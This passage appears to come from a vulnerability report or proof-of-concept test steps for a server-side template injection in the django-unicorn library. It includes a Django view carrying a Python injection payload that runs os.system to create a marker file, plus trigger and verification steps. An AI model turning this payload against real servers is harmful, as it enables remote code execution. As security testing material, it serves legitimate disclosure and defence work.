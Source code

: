         def ssti_test_view(request):
            malicious_payload = "'); import os; os.system('touch /tmp/unicorn_ssti_pwned'); x = ('" # Payload to trigger RCE
            return render(request, 'ssti_test_page.html', {'malicious_payload': malicious_payload})
        ```
        ```html
        {# ssti_test_page.html #}
        {% load unicorn %}
        <html>
        <head>
            {% unicorn_scripts %}
        </head>
        <body>
            {% unicorn 'ssti-component' %}
        </body>
        </html>
        ```
    5. **Run Server and Access Page:** Start the Django development server and access the page containing the `ssti_component` in a browser.
    6. **Trigger Action:** Click the "Trigger SSTI" button. This will send a request to the server with the malicious payload in the `unicorn:click` action.
    7. **Verification:** Check if the command `touch /tmp/unicorn_ssti_pwned` was executed on the server. Verify if the file `/tmp/unicorn_ssti_pwned` exists in the `/tmp/` directory on the server. If the file is created, it confirms successful Remote Code Execution via Server-Side Template Injection.
